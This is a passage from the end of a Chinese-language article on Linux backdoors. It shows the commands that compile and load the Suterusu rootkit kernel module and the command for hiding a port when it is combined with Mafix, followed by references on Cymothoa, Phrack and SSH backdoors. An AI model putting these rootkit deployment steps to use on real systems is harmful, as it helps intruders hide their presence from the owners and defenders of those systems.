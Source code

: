 编译：

```
make linux-x86 KDIR=/lib/modules/$(uname -r)/build
gcc sock.c -o sock
//加载模块
insmod suterusu.ko

```

结合Mafix使用(隐藏端口):

```
./sock 3 [port]

```

![p12](http://drops.javaweb.org/uploads/images/6482d49639a88423f93f4aebc663b972ea4ae408.jpg)

0x09 参考资料
=====

*   [https://www.aldeid.com/wiki/Cymothoa](https://www.aldeid.com/wiki/Cymothoa)
*   [http://phrack.org/issues/68/9.html](http://phrack.org/issues/68/9.html)
*   [http://www.joychou.org/index.php/web/ssh-backdoor.html](http://www.joychou.org/index.php/web/ssh-backdoor.html)